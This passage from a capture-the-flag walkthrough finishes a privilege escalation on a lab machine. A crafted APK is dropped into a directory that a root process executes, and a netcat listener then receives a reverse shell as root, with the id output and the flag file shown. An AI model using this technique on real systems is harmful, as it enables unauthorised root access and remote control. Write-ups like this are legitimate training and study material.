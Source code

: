 On the target, transfer the APK into `/opt/mdm/apk_bin/` and wait for its execution.

```bash
will@catch:/dev/shm/tgihf$ cp tgihf.apk /opt/mdm/apk_bin/
```

Receive a reverse shell as `root`. Grab the system flag from `/root/root.txt`.

```bash
$ sudo nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.122] from (UNKNOWN) [10.129.184.119] 33482
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# ls -la /root/root.txt
-rw-r----- 1 root root 33 Mar 15 13:50 /root/root.txt
```
